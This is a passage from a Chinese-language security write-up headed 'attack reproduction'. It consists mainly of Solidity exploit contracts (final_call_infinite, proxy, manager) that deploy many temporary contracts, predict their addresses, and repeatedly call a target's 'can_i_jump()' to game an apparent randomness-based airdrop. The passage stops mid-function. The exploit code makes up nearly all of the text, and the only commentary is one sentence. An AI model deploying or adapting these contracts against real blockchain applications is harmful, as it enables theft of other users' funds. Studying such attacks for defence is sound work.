 
### 2.1 攻击复现

```
contract final_call_infinite {

    constructor(address attackee) payable public {
        for (uint8 i = 0; i < 10; i++) {

            if (attackee.call.value(1000000000000000)(abi.encode(bytes4(keccak256("can_i_jump()")))) == false) {
                revert();

            }
        }
    }
}
contract proxy {

	function attack(address attackee) public payable {
		(new final_call).value(100000000000000000)(attackee);
	}

    function attack_infinite(address attackee) public payable {

        (new final_call_infinite).value(100000000000000000)(attackee);
    }
}
```

首先增加一个`final_call_infinite`的临时合约，使其可以循环的发起攻击，然后在合约`proxy`下增加一个`attack_infinite()`函数用于创建`final_call_infinite`合约。

```
contract manager {
......
	address[] private _proxy = new address[](1000);
	uint[] private _nonce = new uint[](1000);
......
	function attack(address attackee, uint airDropTracker_) isMe public payable {
		for (uint64 i = 0; i < 1000; i++) {

			address proxy_address = _proxy[i];
			uint proxy_nonce = _nonce[i] + 1;
            if (fake_airdrop(count_next_address(proxy_address, proxy_nonce), 1)) {
                if (proxy_address.call.value(100000000000000000)(abi.encodeWithSelector(bytes4(keccak256("attack_infinite(address)")), attackee)) == false) {
                    revert();
                }
                _nonce[i] ++;

                return;
            }
		}

        for (uint64 i = 0; i < 1000; i++) {

            address proxy_address = _proxy[i];
            uint proxy_nonce = _nonce[i] + 1;
            if (fake_airdrop(count_next_address(proxy_address, proxy_nonce), airDropTracker_)) {
                if (proxy_address.call.value(100000000000000000)(abi.encodeWithSelector(bytes4(keccak256("attack(address)")), attackee)) == false) {
                    // These code will not be executed, even though call fail.
                    revert();
                }
```